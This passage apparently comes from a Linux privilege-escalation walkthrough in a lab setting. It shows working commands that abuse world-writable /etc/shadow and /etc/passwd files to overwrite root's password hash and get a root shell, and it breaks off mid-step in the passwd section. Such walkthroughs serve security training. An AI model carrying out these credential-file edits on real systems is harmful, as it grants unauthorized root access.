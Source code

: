 1. Check the permissions of the /etc/shadow file and note that it is world writable:

```
ls -l /etc/shadow
    -rw-r—rw- 1 root shadow 810 May 13 2017 /etc/shadow
```

2. Copy / save the contents of /etc/shadow so we can restore it later.
3. Generate a new SHA-512 password hash:

```
mkpasswd -m sha-512 newpassword
    $6$DoH8o2GhA$5A7DHvXfkIQO1Zctb834b.SWIim2NBNys9D9h5wUvYK3IOGdxoOlL9VE
    WwO/okK3vi1IdVaO9.xt4IQMY4OUj/
```

4. Edit the /etc/shadow and replace the root user’s password hash with the one we generated.

```
root:$6$DoH8o2GhA$5A7DHvXfkIQO1Zctb834b.SWIim2NBNys9D9h5wUvYK3IOGdxoO
lL9VEWwO/okK3vi1IdVaO9.xt4IQMY4OUj/:17298:0:99999:7:::
```

5. Use the su command to switch to the root user, entering the new password when prompted:

```
su
Password:
root@debian:/# id
uid=0(root) gid=0(root) groups=0(root)
```

### <mark style="color:blue;">World Writable /etc/passwd</mark>

The root account in /etc/passwd is usually configured like this:

`root:x:0:0:root:/root:/bin/bash`

The “x” in the second field instructs Linux to look for the password hash in the /etc/shadow file.

In some versions of Linux, it is possible to simply delete the “x”, which Linux interprets as the user having no password:

`root::0:0:root:/root:/bin/bash`

1. Check the permissions of the /etc/passwd file and note that it is world writable.:

```
ls -l /etc/passwd
    -rw-r--rw- 1 root root 951 May 13 2017 /etc/passwd
```

2. Generate a password hash for the password “password” using openssl:

```
openssl passwd "password"
    L9yLGxncbOROc
```

3. Edit the /etc/passwd file and enter the hash in the second field of the root user row:

